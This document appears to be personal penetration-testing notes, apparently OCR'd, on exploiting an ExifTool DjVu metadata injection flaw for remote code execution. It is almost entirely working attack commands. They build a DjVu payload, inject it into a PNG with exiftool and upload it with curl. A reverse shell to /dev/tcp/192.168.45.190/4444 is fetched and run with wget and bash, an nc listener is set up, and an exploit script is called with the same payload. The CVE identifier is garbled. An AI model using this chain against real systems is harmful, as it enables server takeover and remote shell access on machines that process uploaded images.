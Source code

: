 ```bash
# compresspayload
bzz payload payload.bzz
djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz

# you need config file from post..
# tells exif where to inject
exiftool -config config '-HassebladExif<=exploit.djvu' sample.png
string sample.png
# now we se djvu info on our paylod
```

send with curl
```bash
curl -i -F name=test.png -F myfile=@sample.png http://ip/exiftest.php -v -L
# should see ping request

```

Now that we now communication is working, we can replace payload of ping with revshell instead.
- some revshell payloads won't work if they have > & in them
- can try busybox nc, if it's present.
- can use this payload almost always
- ```bash
# start listener on kali: 
rlwrap nc -nvlp 4444

# revshells.com bash -i , copy to file named 'shell'
/bin/sh -i >& /dev/tcp/192.168.45.190/4444 0>&1

# In payload: update it to below, and recompile, and reupload/reinject 
# (metadata "\c${system('wget 192.168.KALIIP/shell -O /tmp/shell; bash /tmp/shell')};)
 
 curl -i -F name=test.png -F myfile=@sample.png http://ip/exiftest.php -v -L
 
  ```

exploit instead
```bash
python3 exploit-cve-20221-22204.py -c "wget 192.168.KALIIP/shell -O /tmp/shell; bash /tmp/shell"
```

